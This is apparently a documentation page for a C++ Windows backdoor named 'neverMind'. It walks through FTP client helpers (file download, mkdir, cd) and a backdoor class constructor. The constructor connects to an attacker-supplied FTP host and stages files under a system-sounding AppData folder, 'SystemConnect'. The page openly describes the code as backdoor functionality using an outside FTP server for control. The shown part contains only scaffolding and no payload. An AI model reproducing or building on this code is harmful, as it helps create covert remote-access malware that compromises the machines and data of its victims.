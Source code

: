 `retr_file(const std::string& local_path, const std::string& server_name)`: this function downloads a file from the FTP server to the local path. 

```cpp
bool ftpC::retr_file(const std::string& local_path, const std::string& server_name)
    {
        BOOL result = FtpGetFileA(ftpS, server_name.c_str(), local_path.c_str(), 0, 0, FTP_TRANSFER_TYPE_BINARY, INTERNET_FLAG_HYPERLINK);
        return result;
    }
```

`mkdir(const std::string& folder_name)`: this function creates a new directory on the FTP server with the specified folder name.

```cpp
bool ftpC::mkdir(const std::string& folder_name)
    {
        BOOL result = FtpCreateDirectoryA(ftpS, folder_name.c_str());
        return result;
    }
```

`cd(const std::string& server_path)`: this function changes the current directory on the FTP server to the directory specified by `server_path`.

```cpp
bool ftpC::cd(const std::string& server_path)
    {
        BOOL result = FtpSetCurrentDirectoryA(ftpS, server_path.c_str());
        return result;
    }
```

### neverMind

the `neverMind` class defined in `neverMind.h` and implemented in `neverMind.cpp` provides a set of functions for backdoor operations.

#### constructor + destructor

`neverMind(const std::string &host, const std::string &username, const std::string &password)`: the constructor initializes the backdoor with the provided FTP host, username, and password. it also sets up paths for the backdoor.

```cpp
neverMind::neverMind(const std::string &host, const std::string &username, const std::string &password)
        : ftp_host(host), ftp_username(username), ftp_password(password), ftp_connection(ftpC(ftp_host, ftp_username, ftp_password)), win_username(wrapper::get_username()), store_path("C:\\Users\\" + win_username + "\\AppData\\Local\\SystemConnect"), data_path((std::filesystem::path(store_path) / "data").u8string()), app_path((std::filesystem::path(store_path) / "app").u8string()), output_path((std::filesystem::path(data_path) / "output.txt").u8string())
    {
    }
```
